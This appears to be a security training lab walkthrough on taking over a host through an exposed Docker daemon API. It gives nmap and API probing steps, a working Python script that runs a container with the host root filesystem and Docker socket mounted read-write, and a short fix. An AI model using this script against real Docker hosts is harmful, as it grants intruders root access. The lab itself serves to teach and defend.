


# **`Docker Daemon Configuration`**

###### A malicious user who gains access Docker API, can gain access to the host machine with root permissions.

Step 1: Run an nmap scan on the VM to get the list of ports that are open. `nmap 127.0.0.1 -sV -p 4243`

Step 2: To check access to the docker API, access `http://localhost:4243/version` and `http://localhost:4243/images/json`
 

Step 3: Activate the python virtual environment and run the script that will run a malicious container via. the docker API.

    #!/usr/bin/env python
    import docker
    client = docker.DockerClient(base_url='tcp://127.0.0.1:4243')
    
    # client = docker.DockerClient(base_url='tcp://<IP>:<PORT>')

    
    malicious_image = 'we45/docker-ui:latest'
    client.images.pull(malicious_image)
    port_key = {"{0}/tcp".format(6080): ('0.0.0.0', 6080)}
    
    client.containers.run(image=malicious_image, ports=port_key, volumes={'/': {'bind': '/rootFS/', 'mode': 'rw'}, '/var/run/docker.sock': {'bind': '/var/run/docker.sock', 'mode': 'rw'}}, detach=True)

Step 4: On the browser, access the port mentioned in the script. `http://127.0.0.1:6080/vnc.html`

Step 5: `Right-Click` and open the terminal. The user has UI access to the Host machine. 

Step 6: To fix this issue, open `/etc/default/docker` and comment `DOCKER_OPTS`

